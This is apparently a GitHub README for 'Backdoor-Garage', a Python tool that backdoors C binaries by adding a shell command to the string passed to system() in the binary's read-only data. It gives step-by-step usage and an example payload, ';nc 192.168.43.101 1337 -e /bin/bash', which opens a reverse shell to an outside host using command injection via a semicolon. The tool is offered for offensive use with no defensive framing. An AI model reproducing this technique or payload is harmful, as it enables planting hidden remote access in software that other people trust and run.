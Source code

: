 # Backdoor-Garage
I don't know whats this method called as I did not find any information related to this backdooring technique . Its something that I came up with . This python scripts appends shell command to the parameter of system() function in C binaries . So when the binary runs the appended shell command runs too. Sometimes the binary gives segfault after executing the command.

# Installation
``` bash
sudo apt-get install python3
```
# Run the script
```bash
python3 backdoor.py
```
# How to use ?

After running it you will see something like this :
![](git.png)

In that input field enter the shell command that the binary you want to backdoor uses . For example if a binary uses the ls command use that as an input . If you are not sure what command your binary uses you can always check the .rodata using objdump.
```bash
objdump -s -j .rodata binary_name
```
Next the program will ask you to enter the malicious command . Make sure you add ;or& before your command.
```bash
;nc 192.168.43.101 1337 -e /bin/bash
```
This will terminate the first command and add your command.
Then enter the file name and you are good to go . Now the binary file is backdoored.

# Disclaimer
Sometimes this process may overwrite important strings in .rodata section . In this case the binary will give segfault before or after executing the malicious command.
Sorry for the poor code quality as I was in a hurry . 


